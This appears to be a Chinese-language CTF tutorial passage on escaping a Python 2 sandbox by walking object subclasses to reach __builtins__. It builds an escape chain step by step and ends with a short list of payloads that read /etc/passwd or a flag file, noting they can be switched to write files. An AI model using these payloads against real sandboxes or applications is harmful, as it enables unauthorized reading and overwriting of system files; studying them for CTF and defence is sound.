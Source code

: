 

```plain
获取基本类后，继续向下获取基本类(object)的子类
object.__subclasses__()

```



```plain
找到重载过的__init__类(在获取初始化属性后，带wrapper的说明没有重载，寻找不带warpper的)所谓重载，就是多个相同函数名的函数，根据传入的参数个数，参数类型而执行不同的功能。所以函数重载实质上是为了解决编程中参数可变不统一的问题。然后就是重载了那还怎么用嘛。
''.__class__.__mro__[2].__subclasses__()[99].__init__//对99个实例化<slot wrapper '__init__' of 'object' objects>''.__class__.__mro__[2].__subclasses__()[59].__init__<unbound method WarningMessage.__init__>

```



```plain
查看其引用__builtins__builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']

```






```plain
这里会返回dict类型，寻找keys中可用函数，直接调用即可，使用keys中的file以实现读取文件的功能
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('F://GetFlag.txt').read()

```



至此一条逃逸链就构造了出来。


在比赛中其实有些函数还是蛮难找的，不知道该用哪些类所以会有一些常用的payload:


都是py2的：


读写文件：


```plain
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()    #将read() 修改为 write() 即为写文件

```



```plain
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() #将read() 修改为 write() 即为写文件

```
